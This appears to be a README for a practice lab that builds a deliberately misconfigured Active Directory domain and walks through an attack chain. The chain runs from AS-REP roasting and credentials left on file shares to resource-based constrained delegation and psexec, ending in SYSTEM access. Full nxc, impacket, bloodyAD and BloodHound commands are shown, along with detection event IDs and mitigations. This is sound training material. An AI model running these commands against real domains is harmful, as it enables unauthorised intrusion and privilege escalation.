

# Lab 02: Basic AD + RBCD

## Overview
A basic corporate Active Directory environment with intentionally introduced misconfigurations.  
Designed to practice **Resource-Based Constrained Delegation (RBCD)** from a low-privileged user to SYSTEM.

## Topology

```
┌──────────────┐    ┌──────────────┐    ┌──────────────┐
│   DC01       │    │   VICTIM     │    │   Parrot     │
│ Win Server   │────│   Win 10     │────│   Parrot OS  │
│ 192.168.31.100│   │ 192.168.31.204│   │   DHCP       │
│ DC + AD CS   │    │   Client     │    │   Attacker   │
└──────────────┘    └──────────────┘    └──────────────┘
```

## Environment

| Component | Version |
|---|---|
| Domain Controller | Windows Server 2022 |
| Client | Windows 10 22H2 |
| Attacker | Parrot OS |
| Domain | `corp.local` |
| Subnet | `192.168.31.0/24` |

## Attack Chain

```
reader  →  Public  →  users.txt
        →  AS-REP a.hr  →  Password1
        →  a.hr  →  HR share  →  finance_note.txt
        →  o.finance  →  Finance share  →  it_note.txt
        →  svc_sql  →  RBCD  →  Administrator
        →  psexec  →  SYSTEM
```

## Accounts

| Name | Sam | Password | Group |
|---|---|---|---|
| Alex Admin | a.admin | Password1 | IT_Admins |
| Ivan Ivanov | i.ivanov | Password1 | IT_Support |
| Olga Finance | o.finance | Password1 | Finance_Users |
| Petr Cash | p.cash | Password1 | Finance_Users |
| Anna HR | a.hr | Password1 | HR_Users |
| Sergey Sales | s.sales | Password1 | Sales_Users |
| Maria Sales | m.sales | Password1 | Sales_Users |
| SQL Service | svc_sql | Password1 | SQL_Admins |
| HR Admin | hr_admin | Password1 | HR_Users |
| Sys Admin | sys_admin | Password1 | — |
| Public Reader | reader | Password1 | — |

## Shares

| Share | Access |
|---|---|
| Public | Domain Users (Read) |
| IT | IT_Support (Change), IT_Admins (Full) |
| Finance | Finance_Users (Change) |
| HR | HR_Users (Change) |
| Sales | Sales_Users (Change) |

## Vulnerabilities

| # | Vulnerability | Where | MITRE |
|---|---|---|---|
| 1 | AS-REP Roastable | `a.hr` | T1558.004 |
| 2 | Credentials in Files | HR / Finance share | T1552.001 |
| 3 | Weak Passwords | all | T1110.002 |
| 4 | GenericWrite on VICTIM$ | `svc_sql` | T1098 |
| 5 | RBCD | `VICTIM$` | T1134.001 |

## Attack Steps

### 1. Share Enumeration (reader)

```bash
nxc smb 192.168.31.100 -u reader -p 'Password1' --shares
smbclient //192.168.31.100/Public -U 'corp.local/reader%Password1' \
  -c "ls; get users.txt; exit"
cat users.txt
```

### 2. AS-REP Roast (a.hr)

```bash
impacket-GetNPUsers corp.local/ -usersfile users.txt -no-pass \
  -dc-ip 192.168.31.100 -request -format hashcat -outputfile asrep.txt

john asrep.txt --wordlist=/usr/share/wordlists/fasttrack.txt
```

**Result:** `a.hr : Password1`

### 3. HR Share (a.hr)

```bash
smbclient //192.168.31.100/HR -U 'corp.local/a.hr%Password1' \
  -c "ls; get finance_note.txt; exit"
cat finance_note.txt
```

**Result:** `o.finance : Password1`

### 4. Finance Share (o.finance)

```bash
smbclient //192.168.31.100/Finance -U 'corp.local/o.finance%Password1' \
  -c "ls; get it_note.txt; exit"
cat it_note.txt
```

**Result:** `svc_sql : Password1`

### 5. BloodHound

```bash
bloodhound-python -d corp.local -u svc_sql -p Password1 -ns 192.168.31.100 -c All
```

**Screenshot:**



**Finding:** `svc_sql` has `GenericWrite` on `VICTIM$`.

### 6. RBCD (svc_sql → VICTIM$)

```bash
bloodyAD --host 192.168.31.100 -d corp.local -u svc_sql -p 'Password1' \
  add rbcd 'VICTIM$' 'svc_sql'
```

**Result:** `svc_sql` can now impersonate users on `VICTIM$` via S4U2Proxy.

### 7. Impersonation (Administrator)

```bash
impacket-getST corp.local/svc_sql:'Password1' \
  -spn 'cifs/VICTIM.corp.local' \
  -impersonate Administrator \
  -dc-ip 192.168.31.100
```

**Result:** `Administrator@cifs_VICTIM.corp.local@CORP.LOCAL.ccache`

### 8. Psexec

```bash
export KRB5CCNAME=Administrator@cifs_VICTIM.corp.local@CORP.LOCAL.ccache

impacket-psexec corp.local/Administrator@VICTIM.corp.local -k -no-pass
```

**Result:**

```text
C:\Windows\system32> whoami
nt authority\system
```

## Detection

| Attack | Event ID | Source |
|---|---|---|
| AS-REP Roast | 4768 | DC Security Log |
| RBCD modification | 5136 | DC Security Log |
| S4U2Proxy | 4769 | DC Security Log |
| Psexec | 7045 | System Log |

## Mitigation

| Attack | Mitigation |
|---|---|
| AS-REP Roast | Enforce Kerberos Pre-Auth |
| Credentials in Files | No plaintext passwords on shares |
| Weak Passwords | Strong password policy |
| RBCD | Audit `msDS-AllowedToActOnBehalfOfOtherIdentity` |
| Psexec | Disable SMB admin shares |

## References
- [MITRE ATT&CK](https://attack.mitre.org/)
- [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- [Impacket](https://github.com/fortra/impacket)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)

## Status
WIP
